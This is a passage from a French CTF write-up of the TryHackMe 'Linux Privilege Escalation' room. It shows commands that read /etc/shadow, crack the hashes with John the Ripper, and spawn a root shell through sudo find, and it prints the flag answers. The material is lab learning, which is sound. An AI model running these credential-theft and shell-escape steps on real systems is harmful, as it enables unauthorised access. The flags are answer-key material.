 ## 🔐 Phase 11 : Cracking de hash (base64 + John)

**Objectif :** Extraire puis cracker les mots de passe Linux.

### Sur la machine cible :

```bash
$ base64 /etc/passwd > passwd64.txt
$ base64 /etc/shadow > shadow64.txt
$ base64 -d passwd64.txt > passwd.txt
$ base64 -d shadow64.txt > shadow.txt
$ unshadow passwd.txt shadow.txt > merged.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt merged.txt
$ john --show merged.txt
```

Mot de passe root trouvé : `Password1`

```bash
$ su missy
```

| Flag   | flag1.txt          |
| ------ | ------------------ |
| Answer | THM-42828719920544 |

## 🎯 Phase finale : exécution root via sudo

**Objectif :** Exploiter un dernier privilège sudo pour lancer un shell.

### Sur la machine cible :

```bash
$ sudo -l
$ sudo find / -name "*flag*.txt"      # Localiser les flags
$ sudo find . -exec /bin/sh \; -quit # Obtenir un shell root
```

| Flag   | flag2.txt           |
| ------ | ------------------- |
| Answer | THM-168824782390238 |

---

## 📝 Conclusion

Cette room "Linux Privilege Escalation" m'a permis de consolider mes connaissances sur :

- Les failles kernel et l'importance des mises à jour.
- Les différentes méthodes d'escalade : exploits, sudo, SUID, capabilities, cron, NFS.
- L'art de l'énumération et la recherche d'indices via `ps`, `sudo -l`, `getcap`, etc.

Ce guide structuré reste un support idéal pour mes futurs pentests ou CTF, tout en soulignant l'importance des contrôles de sécurité (AppArmor, SELinux, configurations NFS, permissions).

